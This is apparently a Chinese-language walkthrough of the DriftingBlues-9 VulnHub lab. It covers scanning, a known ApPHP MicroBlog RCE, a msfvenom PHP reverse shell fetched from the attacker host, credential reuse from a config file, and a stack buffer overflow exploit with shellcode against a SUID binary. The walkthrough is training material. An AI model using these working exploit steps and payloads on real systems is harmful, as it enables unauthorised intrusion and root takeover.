# 目标

get **flags**

---

# 1.信息收集
## 1.1 主机发现
```shell
nmap 192.168.64.0/24 -sn --max-rate 10000
```

靶机的IP地址是：`192.168.64.37`

## 1.2 端口扫描
**SYN扫描**
```shell
nmap 192.168.64.37 -sS -sV -Pn -p- --max-rate 10000 -oA nmap-scan/syn
```


**TCP connection扫描**
```shell
nmap 192.168.64.37 -sT -sV -Pn -p- --max-rate 10000 -oA nmap-scan/tcp
```


**UDP扫描**
```shell
nmap 192.168.64.37 -sU -sV -Pn --top-ports 100 --max-rate 10000 -oA nmap-scan/udp
```


**nmap默认脚本扫描**
```shell
nmap 192.168.64.37 -sV -sC -Pn -p 80,111,2 -oA nmap-scan/default
```


**nmap漏洞脚本扫描**
```shell
nmap 192.168.64.37 -sV --script vuln -Pn -p 80,111,2 -oA nmap-scan/vuln
```
有很多信息。

## 1.3 80端口获取信息
**访问`http://192.168.64.37`**

看着像一个CMS，看一下是什么，
```shell
whatweb http://192.168.64.37
```

叫“ApPHP MicroBlog”的CMS.

**利用CMS的漏洞**
```shell
searchsploit microblog
```

使用一下`33030.txt`，内容如下，
```text
~[RCE]
http://path/index.php?jiko);system((dir)=/
~[LFI]
http://path/index.php?index.php?page=FILE%00 (you need to baypass the filter)
http://path/index.php?index.php?admin=FILE%00 (you need to baypass the filter)
```
上面都尝试了，只有`http://path/index.php?jiko);system((dir)=/`可以正常使用。，但是其他的命令感觉已经被屏蔽了。
通过上面的命令可以看到网站的根目录有如下内容，


应该是有RCE，因此使用一下33070.py来找RCE，
```shell
python2 33070.py http://192.168.64.37/index.php
```
果然有RCE.

## 1.4 111端口获取信息
rpcbind一般就是开放111端口，作用就是其他计算机可以通过询问这个端口来得知某个服务开放在那个端口上面，就是portmapper的作用。
```shell
rpcinfo -p 192.168.64.37
```

上面显示出了一个`status`的字样，其实就是*NFSv2/NFSv3*版本的服务，主要就是用来配合文件锁使用，维护对端列表、重启时发送通知。
看看有没有NFS共享，
```shell
showmount -e 192.168.64.37
```
啥也没有。

---

# 2.建立系统立足点
**使用msfvenom生成php反弹文件**
```shell
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.64.2 lport=1025 -f raw -o reverse_tcp.php
```

**将`reverse_tcp.php`文件上传到靶机**
- 在kali上开启python简单http服务
    ```shell
    python3 -m http.server 80
    ```
- 靶机获取文件，并保存在/tmp中
    ```shell
    wget http://192.168.64.2/reverse.php -O /tmp/reverse_tcp.php
    ```

**建立反弹连接**
- kali监听端口*1025*
    ```shell
    msfconsole
    msf > use exploit/multi/handler
    msf() > set lhost 192.168.64.2
    msf() > set lport 1025
    msf() > set payload php/meterpreter/reverse_tcp
    msf() > run
    ```
- 在靶机上面运行php文件
    ```shell
    php /tmp/reverse_tcp.php
    ```

**得到较好的交互shell环境**
```shell
meterpreter > shell
python -c "import pty;pty.spawn('/bin/bash')"
```


---

# 3.系统提权

先查看系统里面有哪些用户，
```shell
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
statd:x:105:65534::/var/lib/nfs:/bin/false
messagebus:x:106:112::/var/run/dbus:/bin/false
mysql:x:107:114:MySQL Server,,,:/var/lib/mysql:/bin/false
clapton:x:1000:1000:,,,:/home/clapton:/bin/bash
```

## 3.1 www-data用户
我试过很多内核漏洞脚本，都没有成功，这个选项可以保留。

**寻找关键的文件**
```shell
find / \( -path /sys -o -path /boot -o -path /boot -o -path /lib -o -path /usr -o -path /run -o -path /etc -o -path /var/lib -o -path /proc \) -prune -o -name "*bak*" 2>/dev/null
find / \( -path /sys -o -path /boot -o -path /boot -o -path /lib -o -path /usr -o -path /run -o -path /etc -o -path /var/lib -o -path /proc \) -prune -o -name "*back*" 2>/dev/null
find / \( -path /sys -o -path /boot -o -path /boot -o -path /lib -o -path /usr -o -path /run -o -path /etc -o -path /var/lib -o -path /proc \) -prune -o -name "*pass*" 2>/dev/null
find / \( -path /sys -o -path /boot -o -path /boot -o -path /lib -o -path /usr -o -path /run -o -path /etc -o -path /var/lib -o -path /proc \) -prune -o -name "*key*" 2>/dev/null
```
没什么信息。

**寻找suid执行文件**
```shell
find / -perm -4000 -type f 2>/dev/null
```
没什么有用的。

**去网站寻找数据库信息**
> www-data用户主要的活动区域就是在网站目录下，因此一定要利用这个用户仔细寻找网站目录。

*ApPHP MicroBlog* CMS的数据库配置文件默认在`/include/base.inc.php`, 去查看一下，
```shell
cat /var/www/html/include/base.inc.php
<?php
    // DATABASE CONNECTION INFORMATION
    define('DATABASE_HOST', 'localhost');           // Database host
    define('DATABASE_NAME', 'microblog');           // Name of the database to be used
    define('DATABASE_USERNAME', 'clapton'); // User name for access to database
    define('DATABASE_PASSWORD', 'yaraklitepe');     // Password for access to database
    define('DB_ENCRYPT_KEY', 'p52plaiqb8');         // Database encryption key
    define('DB_PREFIX', 'mb101_');              // Unique prefix of all table names in the database
?>
```
里面有用户名及密码,
- username: `clapton`
- password: `yaraklitepe`

## 3.2 clapton用户
通过上面查看/etc/passwd文件可以知道有用户clapton，然后上面又有数据库的一个用户名与密码，可以试试，也许就是呢。

正好，可以登陆clapton用户。

**寻找suid执行文件**
```shell
find / -perm -4000 -type f 2>/dev/null
```

有个`/home/clapton/input`，去看看怎么个事。
还有一个note.txt文件，
```shell
cat note.txt
buffer overflow is the way. ( ͡° ͜ʖ ͡°)

if you're new on 32bit bof then check these:

https://www.tenouk.com/Bufferoverflowc/Bufferoverflow6.html
https://samsclass.info/127/proj/lbuf1.htm
```
已经给我们提示了。
说明是缓冲区溢出的问题，input文件是一个二进制的可执行文件，因此，先反编译成汇编语言，
```shell
# 查看架构信息
file ./input
## input: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=9e50c7cacaf5cc2c78214c81f110c88e61ad0c10, not stripped

# 反编译成汇编语言, 保存到文件中
objdump -d -M i386 ./input > input.asm
```
*input.asm*内容中，比较有用的信息如下，
```text
0804845d <main>:
 804845d:	55                   	push   %ebp
 804845e:	89 e5                	mov    %esp,%ebp
 8048460:	83 e4 f0             	and    $0xfffffff0,%esp
 8048463:	81 ec b0 00 00 00    	sub    $0xb0,%esp
 8048469:	83 7d 08 01          	cmpl   $0x1,0x8(%ebp)
 804846d:	7f 21                	jg     8048490 <main+0x33>
 804846f:	8b 45 0c             	mov    0xc(%ebp),%eax
 8048472:	8b 00                	mov    (%eax),%eax
 8048474:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048478:	c7 04 24 40 85 04 08 	movl   $0x8048540,(%esp)
 804847f:	e8 8c fe ff ff       	call   8048310 <printf@plt>
 8048484:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 804848b:	e8 b0 fe ff ff       	call   8048340 <exit@plt>
 8048490:	8b 45 0c             	mov    0xc(%ebp),%eax
 8048493:	83 c0 04             	add    $0x4,%eax
 8048496:	8b 00                	mov    (%eax),%eax
 8048498:	89 44 24 04          	mov    %eax,0x4(%esp)
 804849c:	8d 44 24 11          	lea    0x11(%esp),%eax
 80484a0:	89 04 24             	mov    %eax,(%esp)
 80484a3:	e8 78 fe ff ff       	call   8048320 <strcpy@plt>
 80484a8:	b8 00 00 00 00       	mov    $0x0,%eax
 80484ad:	c9                   	leave
 80484ae:	c3                   	ret
 80484af:	90                   	nop
```
通过阅读汇编语言，可以看出这个input文件里面有比较危险的函数`strcpy()`. 

`mov    0xc(%ebp),%eax`: 取argv地址的内容写入eax
`add    $0x4,%eax`: 给eax里面的值加上0x4
`mov    (%eax),%eax`: 将eax里面的值所指的地址内容写入eax
`mov    %eax,0x4(%esp)`: 将eax里面的值写入esp+0x4地址中
`lea    0x11(%esp),%eax`: 将esp+0x11地址写入eax
`mov    %eax,(%esp)`: 将eax值写入esp内容所指地址的内容中
`call   8048320 <strcpy@plt>`: 运行strcpy函数

使用gdb调试，
```shell
gdb ./input
(gdb) run $(python2 -c 'print("A"*171)')
(gdb) info reg $eip
eip            0xb7645700       0xb7645700 <__libc_start_main+208>
(gdb) kill
```

```shell
(gdb) run $(python2 -c 'print("A"*172)')
(gbb) info reg $eip
eip            0xb7610044       0xb7610044
(gdb) kill
```

```shell
(gdb) run $(python2 -c 'print("A"*173)')
(gbb) info reg $eip
eip            0xb7004141       0xb7004141
(gdb) kill
```

```shell
(gdb) run $(python2 -c 'print("A"*174)')
(gbb) info reg $eip
eip            0x00414141       0x00414141
(gdb) kill
```

```shell
(gdb) run $(python2 -c 'print("A"*175)')
(gbb) info reg $eip
eip            0x41414141       0x41414141
(gdb) kill
```

```shell
(gdb) run $(python2 -c 'print("A"*171)')
(gdb) x/40wx $esp
0xbfe642d0:     0x00000002      0xbfe64364      0xbfe64370      0xb77cce9a
0xbfe642e0:     0x00000002      0xbfe64364      0xbfe64304      0x0804974c
0xbfe642f0:     0x0804821c      0xb77af000      0x00000000      0x00000000
0xbfe64300:     0x00000000      0x0d678586      0x0aefe197      0x00000000
0xbfe64310:     0x00000000      0x00000000      0x00000002      0x08048360
0xbfe64320:     0x00000000      0xb77d26e0      0xb7658639      0xb77df000
0xbfe64330:     0x00000002      0x08048360      0x00000000      0x08048381
0xbfe64340:     0x0804845d      0x00000002      0xbfe64364      0x080484b0
0xbfe64350:     0x08048520      0xb77cd350      0xbfe6435c      0x0000001c
0xbfe64360:     0x00000002      0xbfe65d6e      0xbfe65d82      0x00000000
```
可以将覆盖的*eip*设置为`0xbfe642d0`.

使用msfvenom生成/bin/sh的机器码。
```shell
msfvenom -p linux/x86/exec CMD='/bin/sh' -b '\x00' -f python -v sc
```
输出如下，
```shell
sc =  b""
sc += b"\xdb\xc3\xba\x69\x68\xb3\xdb\xd9\x74\x24\xf4\x5e"
sc += b"\x33\xc9\xb1\x0b\x31\x56\x1a\x03\x56\x1a\x83\xc6"
sc += b"\x04\xe2\x9c\x02\xb8\x83\xc7\x81\xd8\x5b\xda\x46"
sc += b"\xac\x7b\x4c\xa6\xdd\xeb\x8c\xd0\x0e\x8e\xe5\x4e"
sc += b"\xd8\xad\xa7\x66\xd2\x31\x47\x77\xcc\x53\x2e\x19"
sc += b"\x3d\xe7\xd8\xe5\x16\x54\x91\x07\x55\xda"
```

构造命令，并运行
```shell
for i in $(seq 1 10000); do ./input "$(python2 -c 'print "A"*171 + "\xd0\xc3\xff\xbf" + "\x90"*10000 + "\xdb\xc3\xba\x69\x68\xb3\xdb\xd9\x74\x24\xf4\x5e\x33\xc9\xb1\x0b\x31\x56\x1a\x03\x56\x1a\x83\xc6\x04\xe2\x9c\x02\xb8\x83\xc7\x81\xd8\x5b\xda\x46\xac\x7b\x4c\xa6\xdd\xeb\x8c\xd0\x0e\x8e\xe5\x4e\xd8\xad\xa7\x66\xd2\x31\x47\x77\xcc\x53\x2e\x19\x3d\xe7\xd8\xe5\x16\x54\x91\x07\x55\xda"')"; done
```





---
---

# 💻 硬件与软件平台
## 硬件
- Apple Macbook pro `M1-Pro` `32G` `512G`
- macOS `14.8.5`

## 软件
- UTM version `4.7.5`

**kali**:
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- CPU Arch: `Arm64`
- CPU Cores: `4`

**driftingblues-9**: 
- website: `https://www.vulnhub.com/entry/driftingblues-9-final,695/`
- IP: `192.168.64.37`
- CPU Arch: `x86_amd_64`
- CPU Cores: `2`

---

> 水平有限，有不足、错误之处欢迎指出。🧐